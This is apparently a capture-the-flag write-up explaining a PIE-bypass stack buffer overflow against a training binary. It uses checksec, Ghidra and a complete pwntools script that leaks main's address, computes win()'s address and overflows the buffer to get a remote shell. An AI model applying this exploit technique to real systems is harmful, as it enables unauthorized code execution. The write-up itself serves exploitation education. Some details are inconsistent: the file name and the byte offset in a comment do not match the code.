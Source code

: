 # Disclaimer
This problem is almost completely identical to speedrun4, but I will include most of my writeup from that challenge as it is applicable here.

# Reconnaissance
## C Review


## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_6

>Arch:     amd64-64-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      PIE enabled


Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_5")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address_offset = EXE.symbols['win']
main_address_offset = EXE.symbols['main']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13375)
	return r
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address offsets of the `win()` and `main()` functions. Because PIE is enabled, these are not the absolute address of the functions, they are relative offsets from the program's base pointer.  

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect and read the leaked memory address.
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the process to send "Harder, better, faster, stronger: " then read the leaked address of main
# which is next on the same line.
io.recvuntil(b"Harder, better, faster, stronger: ")
data = io.recvline()[:-1] # ignore the last character of the input, which is a newline character
leaked_main_address = (int(data, 16))

# Now we use the leaked address to find the base address of the program, and use that to calculate the address of win
base_address = leaked_main_address - main_address_offset
win_address = base_address + win_address_offset
```
Here we are reading the output of the executable to get the leaked address of `main()`. We convert this to an integer so we can do math with it with the `int(x, 16)` call, using 16 to specify that the `data` variable is an integer represented in base 16. Then we find the base address of the program and calculate a value for `win_address`.

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 54 bytes then the address win(), send it, and open an 
# interactive terminal -- The system is 64 bit so we need a 64 bit pointer to the address of win()
payload = b'a'*56
payload += p64(win_address)+b'\n'
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!